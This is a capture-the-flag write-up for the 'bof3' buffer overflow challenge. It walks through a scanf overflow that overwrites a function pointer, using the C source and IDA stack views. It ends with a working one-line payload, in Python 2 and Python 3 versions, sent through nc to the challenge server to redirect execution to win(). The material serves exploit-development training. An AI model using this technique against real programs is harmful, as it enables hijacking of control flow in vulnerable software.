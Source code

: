 # bof3
**Category:** Pwn

**Points:** 25

**Description:**

Author: kablaa

nc ctf.hackucf.org 9002

> **Files:** bof3, bof3.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code, as with others, the important functionis `handle_connection()`. It contains a `scanf()` call into a buffer of 64 chars, and a function pointer pointing to the `lose()` function:
```c
void handle_connection(int sock) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s",bof);
	fp();
}
```

When the program runs it waits for input in the `scanf()`, and overflowing the buffer should overwrite the function pointer.

I tried sending 65 characters to the program:
To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*65)" | ./bof3 
Segmentation fault (core dumped)
```
Then I tried 64 (fill the buffer, but no room for `NULL` terminator):
```
> python -c "print('A'*64)" | ./bof3 
Illegal instruction (core dumped)
```
Finally I tried 63:
```
> python -c "print('A'*63)" | ./bof3 
you suck!
```

Now to open the executable in IDA and see what's going on. I jump to the `handle_connection()` function. I put a breakpoint just before the function pointer is set to the `lose()` function:

![Handle connection function](handle_connection.png)

Here we can see that `var_C` represents the function pointer on the stack,  and `var_4C` represents the location of the array. These are 64 bytes apart, so teh function pointer comes straight after the array, meaning we could write 64 characters, and then the address/offset of the win function. 

First I create a file containing 64 characters so I can pass it to the IDA debugger and see it appear on the stack to confirm what I think:
```
> python -c "print('A'*64)" > inp_file.txt
```
Now we run the debugger in IDA and watch the stack synchronised with `RBP` (blue highlighted byte at `0xFFCC7478`):

![Stack showing RBP](stack1.png)

The 4 yellow highlighted bytes are the function pointer. We can see them change when they are set to teh lose function:

![Stack showing FP change](stack2.png)

If we look at the code, we can see this is the location of the `lose()` function:

![Lose function location](lose_function.png)

And if we continue the program, our A characters run right up to our function pointer:

![Stack showing As](stack3.png)

> **Note:** the function pointer address is changed slightly as the `NULL` terminator from the string has leaked into the address.

So if we follow our A characters with the address of the `win()` function, we should get our flag. So let's look at the `win()` function:

![Win function location](win_function.png)

we can see that the address is `0x080486EB`. I tried this directly on the server:
```
> python -c "print('A'*64 + '\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002`

This worked, and gave me the flag.

